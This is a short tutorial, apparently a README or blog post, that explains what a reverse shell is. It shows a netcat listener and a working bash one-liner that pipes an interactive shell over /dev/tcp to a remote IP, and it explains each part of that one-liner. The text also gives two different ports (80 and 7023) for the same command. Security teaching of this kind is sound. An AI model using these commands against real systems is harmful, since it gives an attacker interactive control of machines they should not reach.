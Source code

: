 # Doc
Whats a reverse shell? 

Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.

- Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat.

```bash
$ nc -vlp 80 
-v, — verbose Set verbosity level (can be used several times); 
-l, — listen Bind and listen for incoming connections; 
-p, — source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
```
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash


```bash
$ bash -i >& /dev/tcp/192.168.1.142/80 0>&1
```
The command *bash -i >&* invokes bash with an “interactive” option. Then */dev/tcp/192.168.1.142/7023* redirects that session to a tcp socket via device file. 
Finally *0>&1* Takes standard output, and connects it to standard input.

It turns out linux has built a */dev/tcp* device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time.

